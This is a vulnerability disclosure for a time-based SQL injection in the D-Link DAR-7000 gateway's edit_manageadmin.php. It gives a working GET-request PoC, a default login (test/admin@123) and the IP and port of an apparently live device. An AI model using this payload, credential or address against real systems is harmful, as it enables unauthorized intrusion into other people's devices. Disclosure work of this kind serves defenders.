 There is a backend SQL injection vulnerability in the D-LINK DAR-7000 series online behavior audit gateway. Attackers can exploit vulnerabilities to gain server privileges or cause business impact on the system.

official： http://www.dlink.com.cn/

version:DAR-7000

 Vulnerability Path  ：/sysmanage/edit_manageadmin.php

See the login page.

https://60.22.74.195:8443/

![image-20230902145448739](/Users/yuelingfeng/Library/Application Support/typora-user-images/image-20230902145448739.png)



There is a default account password present： test/admin@123



![image-20230902145527083](/Users/yuelingfeng/Library/Application Support/typora-user-images/image-20230902145527083.png)



​                               

 Construct the following POC to determine the presence of SQL injection for the id parameter  

POC：

GET /sysmanage/edit_manageadmin.php?id=(select*from(select+if(length(database())=3,sleep(3),1))a) HTTP/1.1

Host: 

Cookie: PHPSESSID=bd56bd0c40b63f91db30ee598e93060b

Accept: text/html, application/xhtml+xml, image/jxr, */*

Accept-Language: zh-CN

User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; Trident/7.0; rv:11.0) like Gecko

Accept-Encoding: gzip, deflate

Connection: close

![image-20230905164840007](/Users/yuelingfeng/Library/Application Support/typora-user-images/image-20230905164840007.png)

 By analogy, obtain the database name nsg    

![image-20230905164854043](/Users/yuelingfeng/Library/Application Support/typora-user-images/image-20230905164854043.png)

 